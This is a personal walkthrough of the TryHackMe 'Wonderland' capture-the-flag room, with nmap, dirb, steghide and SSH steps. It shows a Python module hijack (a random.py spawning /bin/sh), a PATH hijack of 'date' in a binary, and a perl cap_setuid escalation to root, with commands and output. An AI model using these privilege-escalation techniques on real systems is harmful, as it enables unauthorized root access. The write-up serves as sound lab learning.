






Tryhackme - Wonderland

DISCLAIMER
Any actions and or activities related to the material contained within this Website is solely your responsibility. This site contains materials that can be potentially damaging or dangerous. If you do not fully understand something on this site, then GO OUT OF HERE! Refer to the laws in your province/country before accessing, using, or in any other way utilizing these materials.These materials are for educational and research purposes only.
PORT SCANING
┌──(xf0lt㉿kali)-[~/vulnhub/deathnote]
└─$ nmap -sC -sV -Pn -oA wonderland 10.10.205.159
Nmap scan report for 10.10.205.159
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| 256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_ 256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 5 09:56:27 2022 -- 1 IP address (1 host up) scanned in 65.50 seconds
WEBSITE
From the scan above I found two open ports 22 and 80, port 22 is open for ssh. after that I tried to see the ip address on the search engine and the results of the ip showed an image.

DIRB
After I analyzed the website by looking at the source code, I didn’t find anything there, so I did a bruteforce attack on the directory using dirb and I found two directories, namely /img and /r.
┌──(trysked㉿kali)-[~]
└─$ dirb http://10.10.81.169/ -R
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Wed Oct 12 16:10:44 2022
URL_BASE: http://10.10.81.169/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Interactive Recursion
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://10.10.81.169/ ----
==> DIRECTORY: http://10.10.81.169/img/
+ http://10.10.81.169/index.html (CODE:301|SIZE:0)
==> DIRECTORY: http://10.10.81.169/r/
I checked the /img directory I found three image files

then i fetch all images using wget command
wget http://10.10.251.30/img/alice_door.jpg
wget http://10.10.251.30/img/alice_door.png
wget http://10.10.251.30/img/white_rabbit_1.jpg
STEGHIDE
After i got all the pictures i searched the information on the picture related challenges but no result. then I thought to try the stehide tool to analyze the image, because with this tool we can dissect all the contents of the file in the image. for reference I studied at hacking articles. I tried to dissect all the images but i only get the hint.txt data from the white_rabbit_1.jpg file only. the command I use is like this.
┌──(xf0lt㉿kali)-[~/thm]
└─$ steghide extract -sf white_rabbit_1.jpg
Enter passphrase:
the file "hint.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "hint.txt".
Now let’s see what’s in the hint.txt file. it turns out that the contents are in the form of text, let’s pay attention to r a b b i t, before we found the /r directory when using dirb, it looks like this is a continuation of /r but is separated by spaces, so let’s just try it.
┌──(xf0lt㉿kali)-[~/thm]
└─$ cat hint.txt 130 ⨯
follow the r a b b i t
First I tried to continue the /r directory by writing like /rabbit but failed, then I looked back from the output hint.txt the text had spaces, so I thought it was split using /, and it turned out to be correct after I split into /r/a /b/b/i/t I found a web page in the form of text and images but after I analyzed there was a username and password. To find it you simply inspect the elements on the page.

SSH
after I find the user and password then I try to access it with ssh.
┌──(xf0lt㉿kali)-[~/thm]
└─$ ssh alice@10.10.30.44
The authenticity of host '10.10.30.44 (10.10.30.44)' can't be established.
ED25519 key fingerprint is SHA256:Q8PPqQyrfXMAZkq45693yD4CmWAYp5GOINbxYqTRedo.
This host key is known by the following other names/addresses:
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.30.44' (ED25519) to the list of known hosts.
alice@10.10.30.44's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Sat Oct 15 02:59:55 UTC 2022
System load: 0.01 Processes: 85
Usage of /: 18.9% of 19.56GB Users logged in: 0
Memory usage: 27% IP address for eth0: 10.10.30.44
Swap usage: 0%
0 packages can be updated.
0 updates are security updates.
Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$ pwd
/home/alice
alice@wonderland:~$
in user alice I see two files root.txt and walrus_and_the_carpenter.py, I try to see the file root.txt but it is not allowed. and I tried to view the other file with the command python3 walrus_and_the_carpenter.py but the result that came out was random text, so I decided to analyze the contents of the file using nano.

from the results of my analysis, the walrus_and_the_carpenter.py file imports the random module while on the host there is no random module so I decided to create a random.py file with the contents of the import os file; os.system("/bin/sh") to execute the shell. after I created the file I tried to execute it again with the command python3 walrus_and_the_carpenter.py it ran smoothly and executed the shell but I am still in the same user, what I need is to be able to enter another user.

So what I do is check the list of users or users who can enter root with the command sudo -l
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User alice may run the following commands on wonderland:
(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$
There I see one user who can run python scripts. then I did the user switch by sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
$ pwd
/home/rabbit
$ ls
teaParty
$
now we are in user rabbit and i see a file then i try to execute it but the result is text telling us to input something
rabbit@wonderland:~$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sat, 15 Oct 2022 05:38:09 +0000
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
rabbit@wonderland:~$
then I analyzed the contents of the file using nano there was a script that said ?ELF then I found out what it is? ELF and it turned out to be a binary format developed by USL of course this is new knowledge for me, because I don’t know this yet. then I analyzed the contents of the file using nano there was a script that said ?ELF then I found out what it is? ELF and it turned out to be a binary format developed by USL of course this is new knowledge for me, because I don’t know this yet. Then I analyzed the results from teaParty what exactly he meant. Then I analyzed the results from teaParty what exactly he meant.

After a day I analyzed the teaParty file starting from the output file as well as the contents of the file, from the results of my discussion with friends it turned out that in the file there was a command /bin/echo date which outputs Sat, 15 Oct 2022 06:21:09 +0000. then my friend suggested to create a file named date with the contents of the file /bin/sh. then we give permission to execute with chmod +x on the file. After we give the file permission, then we export any file or PATH that is in /home/rabbit to PATH. then run the file teaParty.
rabbit@wonderland:~$ echo "/bin/sh" >> date
rabbit@wonderland:~$ chmod +x date
rabbit@wonderland:~$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:~$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:~$ pwd
/home/rabbit
hatter@wonderland:~$ whoami
hatter
hatter@wonderland:~$
ROOT
Now we are in the user hatter, then I try to see what files are in it. I get a .txt file, when I see the file the result is text but the file name says password, I think maybe this is a password from various users so I try it one by one on existing users.
hatter@wonderland:~$ cd /home
hatter@wonderland:~$ cd hatter
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:~$
instead of wasting time trying to determine which users have the highest privileges, I did sudo -l and it didn’t work. so i did su hatter for switching groups, i found out with the id command and i was in groups rabbit, so i changed groups.
hatter@wonderland:~$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
hatter@wonderland:~$ su hatter
Password:
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
hatter@wonderland:~$
then i try to get which directory can execute binaries using getcap
hatter@wonderland:~$ getcap / -r 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
hatter@wonderland:~$
after i know perl then next i go to gtfobins to execute perl. Congrats we are at the root, thanks to my friends, thanks also to those of you who read it. Hack again.
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/
# whoami
root
# cd /home
# cd alice
# ls
random.py root.txt walrus_and_the_carpenter.py
# cd /
# cd /root
# ls
user.txt
#
Now we get root and can continue another machine.